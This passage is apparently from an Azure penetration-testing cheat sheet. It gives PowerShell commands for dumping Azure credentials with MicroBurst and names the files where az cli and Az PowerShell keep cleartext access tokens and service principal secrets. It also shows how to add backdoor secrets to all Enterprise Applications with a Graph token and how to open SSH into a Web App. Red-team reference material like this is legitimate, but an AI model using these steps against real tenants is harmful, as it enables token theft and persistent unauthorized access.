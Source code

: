     ```

## Stealing Tokens

* Get-AzurePasswords
    ```powershell
    Import-Module Microburst.psm1
    Get-AzurePasswords
    Get-AzurePasswords -Verbose | Out-GridView
    ```

### Stealing tokens from az cli

* az cli stores access tokens in clear text in **accessTokens.json** in the directory `C:\Users\<username>\.Azure`
* azureProfile.json in the same directory contains information about subscriptions.

### Stealing tokens from az powershell

* Az PowerShell stores access tokens in clear text in **TokenCache.dat** in the directory `C:\Users\<username>\.Azure`
* It also stores **ServicePrincipalSecret** in clear-text in **AzureRmContext.json** 
* Users can save tokens using `Save-AzContext`


## Add credentials to all Enterprise Applications

```powershell
# Add secrets
PS > . C:\Tools\Add-AzADAppSecret.ps1
PS > Add-AzADAppSecret -GraphToken $graphtoken -Verbose

# Use secrets to authenticate as Service Principal
PS > $password = ConvertTo-SecureString '<SECRET/PASSWORD>' -AsPlainText -Force
PS > $creds = New-Object System.Management.Automation.PSCredential('<AppID>', $password)
PS > Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant '<TenantID>'
```

## Spawn SSH for Azure Web App

```powershell
az webapp create-remote-connection --subscription <SUBSCRIPTION-ID> --resource-group <RG-NAME> -n <APP-SERVICE-NAME>
```

## Azure Storage Blob

* Blobs - `*.blob.core.windows.net`
* File Services - `*.file.core.windows.net`
* Data Tables - `*.table.core.windows.net`
* Queues - `*.queue.core.windows.net`
